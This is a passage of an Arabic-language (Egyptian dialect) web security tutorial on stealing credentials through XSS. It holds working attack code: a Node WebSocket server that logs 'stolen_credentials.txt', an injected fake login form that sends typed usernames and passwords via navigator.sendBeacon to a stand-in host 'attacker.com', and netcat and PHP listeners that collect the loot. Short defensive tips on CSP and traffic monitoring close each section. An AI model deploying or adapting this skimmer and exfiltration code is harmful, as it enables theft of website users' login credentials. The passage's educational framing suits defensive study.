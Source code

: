          const WebSocket = require('ws');
         const fs = require('fs');
         const wss = new WebSocket.Server({ port: 8080 });
         wss.on('connection', ws => {
             ws.on('message', message => {
                 fs.appendFileSync('stolen_credentials.txt', message + '\n');
             });
         });
         ```
         - شغل السيرفر:
           ```bash
           node websocket_server.js
           ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع اتصالات WebSocket لغير المواقع الموثوقة.
     - راقب حركة الشبكة لو فيها اتصالات غريبة.

#### 5. **استخدام Beacon API لإرسال البيانات**
   - **إزاي بتحصل؟**
     - السكربت بيعمل فورم وهمي وبيستخدم `navigator.sendBeacon` عشان يبعت البيانات لسيرفر المهاجم بطريقة خفية.
   - **الأوامر أو المفاهيم اللي بتُستخدم**:
     - **سكربت JavaScript (نظري)**:
       ```javascript
       var fakeForm = document.createElement("form");
       fakeForm.innerHTML = '<input type="text" id="username" placeholder="Username">' +
                            '<input type="password" id="password" placeholder="Password">' +
                            '<input type="submit" value="Login">';
       fakeForm.onsubmit = function() {
           var data = "User: " + document.getElementById("username").value + ", Pass: " + document.getElementById("password").value;
           navigator.sendBeacon("http://attacker.com/steal", data);
           return false;
       };
       document.body.appendChild(fakeForm);
       ```
       - `navigator.sendBeacon`: بيبعت البيانات في الخلفية.
       - `onsubmit`: بيشتغل لما المستخدم يضغط على زرار الإرسال.
     - **إعداد سيرفر المهاجم**:
       - netcat:
         ```bash
         nc -lvp 80
         ```
       - أو PHP:
         ```php
         <?php
         file_put_contents("stolen_credentials.txt", file_get_contents("php://input") . "\n", FILE_APPEND);
         ?>
         ```
   - **إزاي بيحط السكربت؟**
     - Stored أو Reflected XSS.
   - **الحماية**:
     - استخدم CSP عشان تمنع الـ Beacon من الإرسال لغير المواقع الموثوقة.
     - راقب حركة الشبكة لو فيها طلبات Beacon غريبة.

